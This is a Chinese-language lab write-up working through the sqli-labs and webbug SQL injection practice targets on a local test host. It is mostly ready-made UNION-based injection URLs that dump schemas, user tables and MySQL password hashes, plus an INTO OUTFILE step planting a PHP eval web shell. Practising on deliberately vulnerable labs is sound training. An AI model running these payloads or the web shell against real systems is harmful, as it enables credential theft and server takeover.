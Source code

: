 ### sqli-labs
#### less1
```SQL
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

##### 判断存在注入
```SQL
http://192.168.48.128/sqli-labs/Less-1/?id=1  # 正常访问,true
http://192.168.48.128/sqli-labs/Less-1/?id=1' # 报错
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=1 --' # 正常访问,true
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2 --' # 不报错,查询不到数据
```
![判断存在注入1](images/1-1.png)
![判断存在注入1](images/1-2.png)

##### 判断列数
```SQL
http://192.168.48.128/sqli-labs/Less-1/?id=1%27 order by 3 %23  # 访问正常
http://192.168.48.128/sqli-labs/Less-1/?id=1%27 order by 4 %23  # 报错:Unknown column '4' in 'order clause'
http://192.168.48.128/sqli-labs/Less-1/?id=1%27 and 1=2  union select 1,2,3 %23  #只显示2和3判断出显示第二行和第三行
```

##### 获取数据库相关信息
```
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2, concat_ws(char(32,58,32),@@version,@@datadir,user(),database()) %23

```
![数据库相关信息](images/1-3.png)

##### 尝试上传一句话木马
```SQL
由上可知是phpstudy的站，尝试上传一句话木马

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2, "<?php @eval($_POST['aaa']);?>" into outfile "C:\phpStudy\PHPTutorial\WWW" %23

```
![上传一句吗木马](images/1-4.png)
### GG继续查看有用的信息
```SQL
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(schema_name) from information_schema.schemata%23   ##爆数据库

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23  ##爆表

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,group_concat(column_name),3 from information_schema.columns where table_name='user' and table_schema=database()%23  #爆字段 id,username,password

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(id,char(32,58,32),username,char(32,58,32),password) from users;%23 #爆内容

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(user,char(32,58,32),host,char(32,58,32),password) from mysql.user;%23 #爆出mysql用户名与哈希值
# root : % : *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B 
# good!mysql对任意主机开放 查md5得到密码为root 轻松navicat for mysql连接
```

![爆表](images/1-5.png)
![爆表](images/1-6.png)
![爆内容](images/1-7.png)
![root密码](images/1-8.png)


#### less2
```SQL
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```
和1不同的就是id没有用引号引起来
```
http://192.168.48.128/sqli-labs/Less-2/?id=1' 
http://192.168.48.128/sqli-labs/Less-2/?id=1 and 1=1
http://192.168.48.128/sqli-labs/Less-2/?id=1 and 1=2
# 可以判断存在注入且是整数型
http://192.168.48.128/sqli-labs/Less-2/?id=1 and 1=2 union select 1,2,group_concat(user,char(32,58,32),host,char(32,58,32),password) from mysql.user;%23 #爆出mysql用户名与哈希值
```

![root密码](images/1-9.png)

### webbug less1
```SQL
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1'&submit=提交查询    #出错
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1 and 1=1 #&submit=提交查询 #正常输出
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1 and 1=2 %23&submit=提交查询  #输出通过上
## 判断不是数字型注入
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 %23&submit=提交查询  #查无数据
# 判断是字符注入
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=1 order by 4 %23 &submit=提交查询
查出行数为4行

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,null,group_concat(table_name) from information_schema.tables where table_schema=database() %23  &submit=提交查询  ##表

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,database() ,group_concat(column_name) from information_schema.columns where table_name='user' and table_schema=database()%23  &submit=提交查询   ##user表的字段

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,database() ,group_concat(uid,char(9),uname,char(9),pwd,char(9),bill)  from user%23  &submit=提交查询 #user表内容


```
![数据库相关信息](images/2-1.png)
![数据库相关信息](images/2-2.png)


###杂记
##### Mysql注释

```
MySQL服务器支持3种注释风格：

#: 从'#'字符从行尾。

--: 从'-- '序列到行尾。请注意 **'-- '(双破折号)注释风格要求第2个破折号后面至少跟一个空格符(例如空格、tab、换行符等等)

/**/ 从/*序列到后面的*/序列。结束序列不一定在同一行中，因此该语法允许注释跨越多行。
```


- [SQL注入科普_wooyun](http://static.hx99.net/static/drops/tips-123.html)
- [MySQL中函数CONCAT及GROUP_CONCAT](http://www.cnblogs.com/appleat/archive/2012/09/03/2669033.html)